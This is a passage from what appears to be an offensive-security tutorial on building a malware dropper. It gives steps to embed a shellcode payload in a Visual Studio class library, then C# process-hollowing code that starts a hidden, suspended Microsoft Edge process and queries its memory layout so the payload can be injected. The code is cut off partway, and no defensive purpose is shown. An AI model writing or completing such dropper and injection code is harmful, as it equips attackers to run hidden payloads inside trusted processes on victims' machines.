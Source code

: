 
### Dropper
1. Make directory for dependencies for infection chain
2. Create new project in Visual Studio **Class Library (.NET Framework)** named MyDropper ![[Pasted image 20250702205033.png]] > Place in the same directory: Checked
3. Add _http_x64.xprocess.bin_ (shellcode) as an embedded resource.
	1. Right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  
	2. Select a payload file to embed in the dropper, e.g. `http_x64.exe`
	3. Then in its properties, change the **Build Action** to **Embedded Resource**.
4. Put the following code into Class1.cs (This is process hollowing code )
```c#
using System;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
 
namespace MyDropper
{
    public class Dropper
    {
        public Dropper()
        {
            var si = new STARTUPINFOA
            {
                cb = (uint)Marshal.SizeOf<STARTUPINFOA>(),
                dwFlags = STARTUPINFO_FLAGS.STARTF_USESHOWWINDOW
            };
 
            // create hidden + suspended msedge process
            var success = CreateProcessA(
                "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                "\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\" --no-startup-window",
                IntPtr.Zero,
                IntPtr.Zero,
                false,
                PROCESS_CREATION_FLAGS.CREATE_NO_WINDOW | PROCESS_CREATION_FLAGS.CREATE_SUSPENDED,
                IntPtr.Zero,
                "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\",
                ref si,
                out var pi);
 
            if (!success)
                return;
 
            // get basic process information
            var szPbi = Marshal.SizeOf<PROCESS_BASIC_INFORMATION>();
            var lpPbi = Marshal.AllocHGlobal(szPbi);
 
            NtQueryInformationProcess(
                pi.hProcess,
                PROCESSINFOCLASS.ProcessBasicInformation,
                lpPbi,
                (uint)szPbi,
                out _);
 
            // marshal data to structure
            var pbi = Marshal.PtrToStructure<PROCESS_BASIC_INFORMATION>(lpPbi);
            Marshal.FreeHGlobal(lpPbi);
 
            // calculate pointer to image base address
            var lpImageBaseAddress = pbi.PebBaseAddress + 0x10;
 
```